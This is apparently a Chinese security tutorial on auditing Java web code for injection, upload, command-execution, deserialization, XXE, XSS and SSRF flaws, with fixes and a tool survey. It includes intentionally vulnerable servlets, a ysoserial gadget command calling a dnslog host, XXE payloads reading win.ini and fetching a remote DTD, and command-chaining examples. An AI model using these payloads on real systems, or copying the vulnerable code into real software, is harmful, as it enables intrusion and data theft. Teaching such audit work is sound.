代码审计

# 常见漏洞

## 注入

参数未过滤直接带入sql语句中

### 示例代码

```java
conn = DriverManager.getConnection(DB_URL,USER,PASS);
// 执行 SQL 查询
stmt = conn.createStatement();
String sql;
String getid = request.getParameter("id");
sql = "SELECT id, name, url FROM websites where id=" + getid;
ResultSet rs = stmt.executeQuery(sql);
out.println(sql);
```






### 审计思路

sql操作 是否有可控的部分 该部分是否过滤 过滤是否严格 有无预编译或强制类型转换


### 防御

#### 预编译

```java
conn = DriverManager.getConnection(DB_URL,USER,PASS);
String sql="SELECT id, name, url FROM websites where id=?";
PreparedStatement ps = conn.prepareStatement(sql);
String getid = request.getParameter("id");
ps.setString(1, getid);
ResultSet rs = ps.executeQuery();
```





```
预编译是指把要执行的sql语句先进行一个解析,解析语法以及确定查询范围还有查找的返回结果类型，就是确定了查询的方式，把命令和参数进行了分离，使用预编译的sql语句来进行查询直接进行执行计划，不会在进行语义解析，也就是DB不会在进行编译，而是直接执行编译过的sql。只需要替换掉参数部分。

在setString这种函数里面还是替你转义了，哪怕你ps.setString(1, "1' or'1'='1'")也不会存在注入
https://blog.csdn.net/yan465942872/article/details/6753957
```


#### 强制类型转换

```java
stmt = conn.createStatement();
String sql;
int getid = Integer.parseInt(request.getParameter("id"));
sql = "SELECT id, name, url FROM websites where id=" + getid;
```




#### 转义&过滤


## 上传&文件操作

### 示例代码

```java
package com.example.servlet_test;

import javax.servlet.*;
import javax.servlet.http.*;
import javax.servlet.annotation.*;
import java.io.File;
import java.io.IOException;
import java.io.PrintWriter;
import java.util.List;

import org.apache.commons.fileupload.FileItem;
import org.apache.commons.fileupload.disk.DiskFileItemFactory;
import org.apache.commons.fileupload.servlet.ServletFileUpload;

@WebServlet(name = "uploadServlet", value = "/uploadServlet")
public class uploadServlet extends HttpServlet {
    private static final long serialVersionUID = 1L;

    // 上传文件存储目录
    private static final String UPLOAD_DIRECTORY = "upload";

    // 上传配置
    private static final int MEMORY_THRESHOLD   = 1024 * 1024 * 3;  // 3MB
    private static final int MAX_FILE_SIZE      = 1024 * 1024 * 40; // 40MB
    private static final int MAX_REQUEST_SIZE   = 1024 * 1024 * 50; // 50MB

    /**
     * 上传数据及保存文件
     */
    protected void doPost(HttpServletRequest request,
                          HttpServletResponse response) throws ServletException, IOException {
        // 检测是否为多媒体上传
        if (!ServletFileUpload.isMultipartContent(request)) {
            // 如果不是则停止
            PrintWriter writer = response.getWriter();
            writer.println("Error: 表单必须包含 enctype=multipart/form-data");
            writer.flush();
            return;
        }

        // 配置上传参数
        DiskFileItemFactory factory = new DiskFileItemFactory();
        // 设置内存临界值 - 超过后将产生临时文件并存储于临时目录中
        factory.setSizeThreshold(MEMORY_THRESHOLD);
        // 设置临时存储目录
        factory.setRepository(new File(System.getProperty("java.io.tmpdir")));

        ServletFileUpload upload = new ServletFileUpload(factory);

        // 设置最大文件上传值
        upload.setFileSizeMax(MAX_FILE_SIZE);

        // 设置最大请求值 (包含文件和表单数据)
        upload.setSizeMax(MAX_REQUEST_SIZE);

        // 中文处理
        upload.setHeaderEncoding("UTF-8");

        // 构造临时路径来存储上传的文件
        // 这个路径相对当前应用的目录
        String uploadPath = request.getServletContext().getRealPath("./") + File.separator + UPLOAD_DIRECTORY;


        // 如果目录不存在则创建
        File uploadDir = new File(uploadPath);
        if (!uploadDir.exists()) {
            uploadDir.mkdir();
        }

        try {
            // 解析请求的内容提取文件数据
            @SuppressWarnings("unchecked")
            List<FileItem> formItems = upload.parseRequest(request);

            if (formItems != null && formItems.size() > 0) {
                // 迭代表单数据
                for (FileItem item : formItems) {
                    // 处理不在表单中的字段
                    if (!item.isFormField()) {
                        PrintWriter writer = response.getWriter();
                        String fileName = new File(item.getName()).getName();
                        String filePath = uploadPath + File.separator + fileName;
                        File storeFile = new File(filePath);
                        // 在控制台输出文件的上传路径
                        System.out.println(filePath);
                        // 保存文件到硬盘
                        item.write(storeFile);
                        writer.println("message: success");
                        writer.println(fileName);
                    }
                }
            }
        } catch (Exception ex) {
            request.setAttribute("message",
                    "错误信息: " + ex.getMessage());
        }
        // 跳转到 message.jsp
        //request.getServletContext().getRequestDispatcher("/message.jsp").forward(request, response);
    }
}

```



### 审计思路

1. 文件上传 未过滤 或者过滤不严
2. 文件解压 移动 复制等操作，关于文件的操作都有可能，有可能是生成的中间文件，包括缓存等等
3. 相关函数的话FileInputStream FileOutputStream readFileToString等等

### 防御

1. 文件名后缀检查，只允许上传白名单（黑名单可被绕过）

黑名单 比如校验了jsp 还可以 jspx等等，或者根据系统特性加空白字符 换行 / \ .等等特殊符号


白名单 只允许上传jpg，单靠上传就没办法



2. 上传目录放在web目录之外，或者oss ftp服务器上面
3. 上传目录禁止脚本执行

## 命令执行

### 示例代码

```java
package com.example.servlet_test;

import javax.servlet.*;
import javax.servlet.http.*;
import javax.servlet.annotation.*;
import java.io.*;

@WebServlet(name = "execServlet", value = "/execServlet")
public class execServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        String ip = request.getParameter("ip");
        String [] cmd={"cmd","/C","ping " + ip};
        try
        {
            Process proc =Runtime.getRuntime().exec(cmd);
            InputStream fis=proc.getInputStream();
            InputStreamReader isr=new InputStreamReader(fis);
            BufferedReader br=new BufferedReader(isr);
            String line=null;
            PrintWriter out = response.getWriter();
            while((line=br.readLine())!=null)
            {
                out.println(line);
            }
        }catch (IOException e)
        {
            e.printStackTrace();
        }


    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {

    }
}

```


正常是个ping的结果 利用&（注意url编码可注入其他命令）造成命令执行



```
注意
在windows中：
&	一起执行，前后都会执行
&&	如果前面的语句为假则直接出错,不执行后面的语句；如果前面为真，两个都会执行
|	显示后面语句的执行结果 但是前后都会执行
||	如果前面执行的语句出错泽执行后面的语句，执行正常则不会执行后面 如：ping 2 || whoami

linux中：
;	执行完前面的语句再执行后面的
|	显示后面语句的执行结果 但是前后都会执行
||	如果前面执行的语句出错泽执行后面的语句，执行正常则不会执行后面 例如:ping 1||whoami
&	一起执行，前后都会执行
&&	如果前面的语句为假则直接出错，也不执行后面的，前面的语句只能为真 例如:ping 127.0.0.1&&whoami

```





### 审计思路

java： 查看常见的命令执行函数 Runtime.getRuntime().exec 或者ProcessBuilder等等的参数是否可控，注意如果要像实例代码中那样利用管道符（| &）注入命令的话，要是cmd /c 或者bash -c等等开头，因为这是命令行的管道符，不在命令行环境内不会正常解析


php: 待完善

### 防御

1. 如需传入参数，尽可能的使用白名单
2. 限制特殊字符（&& || | ; $ 等特殊字符）

## 反序列化

### 实例代码

```java
 package com.example.servlet_test;

import javax.servlet.*;
import javax.servlet.http.*;
import javax.servlet.annotation.*;
import java.io.IOException;
import java.io.InputStream;
import java.io.ObjectInputStream;
import java.util.List;

@WebServlet(name = "exec2Servlet", value = "/exec2Servlet")
public class exec2Servlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {

    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        ObjectInputStream ois = new ObjectInputStream(request.getInputStream());
        try {
            List<Integer> pra = (List)ois.readObject();
            //Integer I = pra.get(0);
        } catch (ClassNotFoundException e) {
            e.printStackTrace();
        }
        ois.close();
    }
}
//如需复现记得添加commons-collections 3.1这个库
```

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections9 "nslookup x.xxx.ceye.io" > 1.bin
这里用什么gadgets跟你的环境有关，不细说

然后burp 右键paste from file 选择1.bin
```



这里的错误是因为List类型转换 但是我们的readobject已经执行，所以命令已经执行了



### 审计思路

找readobject() 看执行反序列化的对象是否可控，最常见的是ObjectInputStream.readObject()

### 防御

#### 通过Hook resolveClass来校验反序列化的类

序列化的数据头部会有className


反序列化过程：

```
Java程序中类ObjectInputStream的readObject方法被用来将数据流反序列化为对象，如果流中的对象是class，则它的ObjectStreamClass描述符会被读取，并返回相应的class对象，ObjectStreamClass包含了类的名称及serialVersionUID。

如果类描述符是动态代理类，则调用resolveProxyClass方法来获取本地类。如果不是动态代理类则调用resolveClass方法来获取本地类。如果无法解析该类，则抛出ClassNotFoundException异常。

如果反序列化对象不是String、array、enum类型，ObjectStreamClass包含的类会在本地被检索，如果这个本地类没有实现java.io.Serializable或者externalizable接口，则抛出InvalidClassException异常。因为只有实现了Serializable和Externalizable接口的类的对象才能被序列化
```

校验反序列化类进行防御：

```
通过上面序列化数据结构可以了解到包含了类的名称及serialVersionUID的ObjectStreamClass描述符在序列化对象流的前面位置，且在readObject反序列化时首先会调用resolveClass读取反序列化的类名，所以这里通过重写ObjectInputStream对象的resolveClass方法即可实现对反序列化类的校验
```

我们继承ObjectInputStream类，重写resolveClass方法，只允许List类反序列化

```java
package com.example.servlet_test;

import java.io.*;
import java.util.List;

public class AntObjectInputStream extends ObjectInputStream {
    public AntObjectInputStream(InputStream inputStream)
            throws IOException, IOException {
        super(inputStream);
    }

    /**
     * 只允许反序列化List class
     */
    @Override
    protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException,
            ClassNotFoundException {
        if (!desc.getName().equals(List.class.getName())) {
            throw new InvalidClassException(
                    "Unauthorized deserialization attempt",
                    desc.getName());
        }
        return super.resolveClass(desc);
    }
}
```

在servlet中使用AntObjectInputStream而不是ObjectInputStream

```java
package com.example.servlet_test;

import javax.servlet.*;
import javax.servlet.http.*;
import javax.servlet.annotation.*;
import java.io.IOException;
import java.io.InputStream;
import java.io.ObjectInputStream;
import java.util.List;

@WebServlet(name = "exec2Servlet", value = "/exec2Servlet")
public class exec2Servlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {

    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        AntObjectInputStream ois = new AntObjectInputStream(request.getInputStream());
        try {
            ois.readObject();
            //Integer I = pra.get(0);
        } catch (ClassNotFoundException e) {
            e.printStackTrace();
        }
        ois.close();
    }

}

```

然后重新部署，此时再发送我们反序列化的payload会提示Unauthorized deserialization attempt 证明我们的校验生效了：



#### 使用ValidatingObjectInputStream来校验反序列化的类

使用Apache Commons IO Serialization包中的ValidatingObjectInputStream类的accept方法来实现反序列化类白/黑名单控制

```java
ValidatingObjectInputStream ois = new ValidatingObjectInputStream(request.getInputStream());
        try {
        //只允许List类的反序列化操作
            ois.accept(List.class);
            ois.readObject();
            //Integer I = pra.get(0);
        } catch (ClassNotFoundException e) {
            e.printStackTrace();
        }
        ois.close();
```



#### contrast-rO0防御反序列化攻击

contrast-rO0是一个轻量级的agent程序，通过通过重写ObjectInputStream来防御反序列化漏洞攻击。使用其中的SafeObjectInputStream类来实现反序列化类白/黑名单控制，示例代码如下:

```java
SafeObjectInputStream in = new SafeObjectInputStream(inputStream, true);
in.addToWhitelist(SerialObject.class);

in.readObject();
```

#### 黑名单

上面说的几种都是尽量使用白名单，因为黑名单无法保证能覆盖所有可能的类，很有可能会出现可替代的利用链，实在要使用黑名单，可以参考一些yso里面的有的链



## xxe

### 示例代码

这里我们用sax这个xml解析库举例子

```java
package com.example.servlet_test;

import org.apache.commons.io.IOUtils;
import org.w3c.dom.Document;
import org.w3c.dom.Node;
import org.w3c.dom.NodeList;
import org.xml.sax.InputSource;

import javax.servlet.*;
import javax.servlet.http.*;
import javax.servlet.annotation.*;
import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.DocumentBuilderFactory;
import java.io.IOException;
import java.io.PrintWriter;
import java.io.StringReader;
import java.nio.charset.StandardCharsets;

@WebServlet(name = "xxeServlet", value = "/xxeServlet")
public class xxeServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {

    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        request.setCharacterEncoding("utf-8");
        response.setCharacterEncoding("utf-8");
        PrintWriter out = response.getWriter();
        try {
            String xml_con = IOUtils.toString(request.getInputStream(), StandardCharsets.UTF_8);
            out.println(xml_con);

            DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
            DocumentBuilder db = dbf.newDocumentBuilder();
            StringReader sr = new StringReader(xml_con);
            InputSource is = new InputSource(sr);
            Document document = db.parse(is);  // parse xml

            // 遍历xml节点name和value
            StringBuffer buf = new StringBuffer();
            NodeList rootNodeList = document.getChildNodes();
            for (int i = 0; i < rootNodeList.getLength(); i++) {
                Node rootNode = rootNodeList.item(i);
                NodeList child = rootNode.getChildNodes();
                for (int j = 0; j < child.getLength(); j++) {
                    Node node = child.item(j);
                    buf.append(node.getNodeName() + ": " + node.getTextContent() + "\n");
                }
            }
            sr.close();
            out.println(buf.toString());
        } catch (Exception e) {
            out.println(e);
        }

    }
}

```



xxe测试：

文件读取

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///C:/Windows/win.ini" >]>
<foo>&xxe;</foo>
```




dnslog：

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://1.xxx.ceye.io/a.dtd">
%remote;
]>
<comment>
  <text>test&send;</text>
</comment>
```





### 审计思路

Java中XML的四种解析方式：DOM解析；SAX解析；JDOM解析；DOM4J解析

https://www.cnblogs.com/longqingyang/p/5577937.html

因此我们关注这些解析方式中的关键函数：

```
javax.xml.parsers.DocumentBuilderFactory;
javax.xml.parsers.SAXParser
javax.xml.transform.TransformerFactory
javax.xml.validation.Validator
javax.xml.validation.SchemaFactory
javax.xml.transform.sax.SAXTransformerFactory
javax.xml.transform.sax.SAXSource
org.xml.sax.XMLReader
org.xml.sax.helpers.XMLReaderFactory
org.dom4j.io.SAXReader
org.jdom.input.SAXBuilder
org.jdom2.input.SAXBuilder
javax.xml.bind.Unmarshaller
javax.xml.xpath.XpathExpression
javax.xml.stream.XMLStreamReader
org.apache.commons.digester3.Digester
...
```

当然还会有一些第三方库或者自己写的xml解析操作，存在xxe问题

### 防御

库太多，不一一赘述了，总体来说修复方式都是通过设置feature的方式来防御XXE

这些feature表示解析器的功能，通过设置feature，我们可以控制解析器的行为，例如，是否对XML文件进行验证等等。下面我们演示如何使用feature。XMLReader中有getFeature和setFeature两个方法。getFeature方法可以用来探测解析器是否打开或具有某些功能，这个方法的返回值为boolean型数据。setFeature可以进行设置，打开或者关闭某些功能，参数有两个，第一个为一个URI字符串，表示功能类型，第二个为一个boolean型数据，表示是否打开，关闭某个功能。

比如disallow-doctype-decl就是不允许文档类型声明

参考https://blog.csdn.net/qq_29254177/article/details/100114252

```java
//以本次代码为例进行防护
            DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
            dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
            dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
            dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);

            DocumentBuilder db = dbf.newDocumentBuilder();
```




## xss

### 示例代码

比较简单，就是传入参数未经过滤直接输出到前端中

```java
package com.example.servlet_test;

import java.io.*;
import javax.servlet.http.*;
import javax.servlet.annotation.*;

@WebServlet(name = "helloServlet", value = "/hello")
public class HelloServlet extends HttpServlet {
    private String message;

    public void init() {
        message = "Hello World!";
        //System.out.println("inited!");
    }

    public void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException {
        response.setContentType("text/html");
        String name = request.getParameter("name");
        PrintWriter out = response.getWriter();
        out.println("<html><body>");
        out.println("<h1>" + message + name  +"</h1>");
        out.println("</body></html>");
        //this.destroy();
    }

    public void destroy() {
        //System.out.println("destroyed!");
    }
}
```



xss测试



### 审计思路

找输出点 看是否可控 有无过滤 有无编码等等 比较简单

### 防御

输入输出转义html

## ssrf

### 示例代码

```java
package com.example.servlet_test;

import javax.servlet.*;
import javax.servlet.http.*;
import javax.servlet.annotation.*;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.io.PrintWriter;
import java.net.HttpURLConnection;
import java.net.URL;
import java.net.URLConnection;

@WebServlet(name = "ssrfServlet", value = "/ssrfServlet")
public class ssrfServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        String url = request.getParameter("url");
        String htmlContent;
        PrintWriter writer = response.getWriter();
        URL u = new URL(url);
        try {
            URLConnection urlConnection = u.openConnection();//打开一个URL连接，并运行客户端访问资源。
            BufferedReader base = new BufferedReader(new InputStreamReader(urlConnection.getInputStream(), "UTF-8"));  //获取url中的资源
            StringBuffer html = new StringBuffer();
            while ((htmlContent = base.readLine()) != null) {
                html.append(htmlContent);  //htmlContent添加到html里面
            }
            base.close();

            writer.println(html);//响应中输出读取的资源
            writer.flush();

        } catch (Exception e) {
            e.printStackTrace();
            writer.println("请求失败");
            writer.flush();
        }
    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {

    }
}

```



php ssrf中的伪协议：

```
file dict sftp ldap tftp gopher
```

Java ssrf 中的伪协议：

```
file ftp mailto http https jar netdoc
```

如果源代码中是URLConnection:可以走邮件、文件传输协议。 HttpURLConnection 只能走浏览器的HTTP协议

通常利用是探测内网端口比如redis 读取文件等等

### 审计思路

1. 在未经过验证的情况下发起一个远程请求，或者验证不严，比如只校验第一次的url，不校验302之后的url（java中的HttpURLConnection是302跳转前的内容 php的file_get_contents是默认自动进行跳转之后的内容）
2. 有时候文件下载 打开等操作也会造成ssrf，比如openStream ImageIO.read等等
3. 常见函数的话有

```java
HttpURLConnection. getInputStream
URLConnection. getInputStream
Request.Get. execute
Request.Post. execute
URL.openStream
ImageIO.read
OkHttpClient.newCall.execute
HttpClients. execute
HttpClient.execute
```


### 防御

- 限制协议为HTTP、HTTPS协议。
- 禁止URL传入内网IP或者设置URL白名单。
- 不用限制302重定向。

以本次代码为例

先在pom.xml中引入相关依赖

```xml
	<dependency>
            <groupId>com.google.guava</groupId>
            <artifactId>guava</artifactId>
            <version>30.1.1-jre</version>
        </dependency>
```

```java
package com.example.servlet_test;

import com.google.common.net.InternetDomainName;

import javax.servlet.*;
import javax.servlet.http.*;
import javax.servlet.annotation.*;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.io.PrintWriter;
import java.net.HttpURLConnection;
import java.net.URL;
import java.net.URLConnection;

@WebServlet(name = "ssrfServlet", value = "/ssrfServlet")
public class ssrfServlet extends HttpServlet {
    //url验证函数
    public static Boolean securitySSRFUrlCheck(String url, String[] urlwhitelist) {
        try {
            URL u = new URL(url);
            // 只允许http和https的协议通过
            if (!u.getProtocol().startsWith("http") && !u.getProtocol().startsWith("https")) {
                return  false;
            }
            // 获取域名，并转为小写
            String host = u.getHost().toLowerCase();
            // 获取一级域名
            String rootDomain = InternetDomainName.from(host).topPrivateDomain().toString();

            for (String whiteurl: urlwhitelist){
                if (rootDomain.equals(whiteurl)) {
                    return true;
                }
            }
            return false;

        } catch (Exception e) {
            return false;
        }
    }
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        String url = request.getParameter("url");
        PrintWriter writer = response.getWriter();
        String[] urlwhitelist = {"baidu.com"};
        if (!securitySSRFUrlCheck(url, urlwhitelist)) {
            writer.println("Error URL");
            return;
        }
        String htmlContent;

        URL u = new URL(url);
        try {
            URLConnection urlConnection = u.openConnection();//打开一个URL连接，并运行客户端访问资源。
            BufferedReader base = new BufferedReader(new InputStreamReader(urlConnection.getInputStream(), "UTF-8"));  //获取url中的资源
            StringBuffer html = new StringBuffer();
            while ((htmlContent = base.readLine()) != null) {
                html.append(htmlContent);  //htmlContent添加到html里面
            }
            base.close();

            writer.println(html);//响应中输出读取的资源
            writer.flush();

        } catch (Exception e) {
            e.printStackTrace();
            writer.println("请求失败");
            writer.flush();
        }
    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {

    }
}

```

测试：



只允许http://xx.baidu.com





## 不安全的组件

主要指使用了fastjson shiro xstream等存在已知漏洞的组件，下面以shiro为例

### 示例代码

```
先在pom.xml里面添加依赖
<dependency>
            <groupId>org.apache.shiro</groupId>
            <artifactId>shiro-all</artifactId>
            <version>1.2.4</version>
        </dependency>
        <dependency>
            <groupId>org.slf4j</groupId>
            <artifactId>slf4j-log4j12</artifactId>
            <version>1.7.12</version>
        </dependency>
        
指定一下classpath 后面shiro.ini配置文件存放的地方
<resources>
            <resource>
                <directory>src/main/resources</directory>
                <includes>
                    <include>**/*.*</include>
                </includes>
                <filtering>false</filtering>
            </resource>
        </resources>
        
然后在web.xml中添加shiro的监听器和过滤器，这里只是演示，对所有的路由都生效
<listener>
        <listener-class>org.apache.shiro.web.env.EnvironmentLoaderListener</listener-class>
    </listener>
    <context-param>
        <param-name>shiroEnvironmentClass</param-name>
        <param-value>org.apache.shiro.web.env.IniWebEnvironment</param-value>
    </context-param>
    <context-param>
        <param-name>shiroConfigLocations</param-name>
        <param-value>classpath:shiro.ini</param-value>
    </context-param>
    <filter>
        <filter-name>ShiroFilter</filter-name>
        <filter-class>org.apache.shiro.web.servlet.ShiroFilter</filter-class>
    </filter>
    <filter-mapping>
        <filter-name>ShiroFilter</filter-name>
        <url-pattern>/*</url-pattern>
    </filter-mapping>
```






### 审计思路

比较简单，基本上看见存在漏洞版本的jar包或者依赖，然后有进行使用，找到使用的点利用就行，比如fastjson就看哪里用了json处理（json.parseObject）

```
shiro:
反序列化漏洞	 Apache Shiro < 1.2.4
Padding Oracle Attack	Apache Shiro < 1.4.2
权限绕过	Apache Shiro < 1.5.2

fastjson:
反序列化漏洞 开启autotype可一直影响到 1.2.68

xstream:
....
```

### 防御

升级组件版本到最新

## 业务&逻辑

其实这部分也没啥好说的 看看逻辑有没有问题，比如是否校验身份、优惠券是否判断上限等等

### 越权

### 条件竞争

# 代码审计思路

## 基本思路

基本架构：入口点、控制器 等等在哪

->路由配置及访问方式（api、servlet等等）

->鉴权方式、登录验证等等

->全局过滤情况，比如自行封装了数据库、文件等操作添加了校验（方便后续查找漏网之鱼）

->梳理出各个模块 前台 后台 前台展示，后台工作流等等

->可以选择根据检索可能存在漏洞的关键字关键函数来回溯可控的点，比如找到一个saveFile()函数，里面没过滤直接保存，这个时候全局搜saveFile看看哪里调用了，是否可控

->还可以根据功能模块，挨个儿看


## 常见架构

### 基于过程

一些老应用通常这样，基本一两个php或者jsp代码负责一块功能，比较简单。

这种代码通常直接找关键字 关键函数会比较快，因为文件与文件之间关联并不会很紧密；而且这种基于过程的代码，使用自动化审计工具效果也还可以。

### MVC

MVC 模式代表 Model-View-Controller（模型-视图-控制器） 模式。这种模式用于应用程序的分层开发。

- **Model（模型）** - 模型代表一个存取数据的对象或 JAVA POJO。它也可以带有逻辑，在数据变化时更新控制器。
- **View（视图）** - 视图代表模型包含的数据的可视化。
- **Controller（控制器）** - 控制器作用于模型和视图上。它控制数据流向模型对象，并在数据变化时更新视图。它使视图与模型分离开。

在MVC的基础上又发展出一个MVVM      Model-View-ViewModel

```
MVVM 即模型-视图-视图模型。
【模型】指的是后端传递的数据。
【视图】指的是所看到的页面。
【视图模型】mvvm模式的核心，它是连接view和model的桥梁。它有两个方向：
一是将【模型】转化成【视图】，即将后端传递的数据转化成所看到的页面。实现的方式是：数据绑定。
二是将【视图】转化成【模型】，即将所看到的页面转化成后端的数据。实现的方式是：DOM 事件监听。这两个方向都实现的，我们称之为数据的双向绑定。
```

像常见的thinkphp就是这种框架的



为啥要说这些呢，其实还是为了读懂代码，起码知道，这个地方的逻辑在哪里处理，路由在哪里控制，不然审计啥？

# 调试

如果是单独一个jar包

```
java -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=5005 -jar xxx.jar
```

这里以idea远程调试tomcat部署的项目为例

先停止tomcat 打开tomcat bin路径下的 catalina.sh 找到JPDA_ADDRESS  把默认的 localhost:8000 改成 0.0.0.0:{你要设置的调试端口}



然后启动tomcat ： .\catalina.bat jpda start 开启调试

在idea Run-debug中新建一个remote



然后点击debug



然后就可以设置断点进行调试，这里随便下了一个进行测试，访问http://local.host:8180/hello?name=1测试成功



# 语言特性

## java


## php


## .net


## python


# 自动化

## 自动化思路

https://zhuanlan.zhihu.com/p/260013208


## 开源工具

### codeql

#### 安装

```
1. codeql本体 https://github.com/github/codeql-cli-binaries/releases
exe 配置环境变量
2. sdk : git clone https://github.com/Semmle/ql
3. Visual Studio Code 扩展里面搜索codeql, 点击安装
```

#### 测试

```
生成数据库
codeql database create D:\codeql_env\servlet-test\test-database  --language="java"  --command="mvn clean install --file D:\codeql_env\servlet-test\pom.xml" --source-root=D:\codeql_env\servlet-test
```



在vscode中把生成的数据库加进去




```
语法：
from [datatype] var
where condition(var = something)
select var
```

这个工具比较依赖自己编写ql语法进行查询，比如查找所有输入点：



有一些检测语法https://github.com/github/codeql/tree/main/java/ql/src/Security/CWE

用他自带的检测了一下xss，效果还挺好




### Kunlun-M

#### 安装

```
git clone https://github.com/LoRexxar/Kunlun-M
cd Kunlun-M
python3 -m pip install -r requirements.txt
copy Kunlun_M\settings.py.bak Kunlun_M\settings.py
python3 kunlun.py init initialize
```



#### 使用

```
先载入规则 不然报错
python3 kunlun.py config load
然后开始扫描
python3 kunlun.py scan -t ./tests/vulnerabilities/
```





测了下某oa



#### 分析

```
开发文档写的很清晰了：
https://github.com/LoRexxar/Kunlun-M/blob/master/docs/dev.md
```


#### 优缺点

```
优点：
开源
部署简单 跨平台
速度快 一千多个php文件静态分析大概几分钟
自定义规则
secret机制对很多自带安全过滤的cms审计很方便
比较依赖自定义的规则，写规则的能力决定代码审计的结果

缺点
这里面并没有像codeql那样有净化方法的概念，比如前面有个intval()了，不管后面怎么输出也不会xss了
```




### rips-0.55

#### 安装

```
https://sourceforge.net/projects/rips-scanner/files/latest/download
丢到phpstudy里面就行
```



#### 使用

比较傻瓜化，填入源代码路径然后scan就行


#### 优缺点

```
优点：
自带的规则库比较全
安装简单
结果详细，还自带利用和修复建议
```


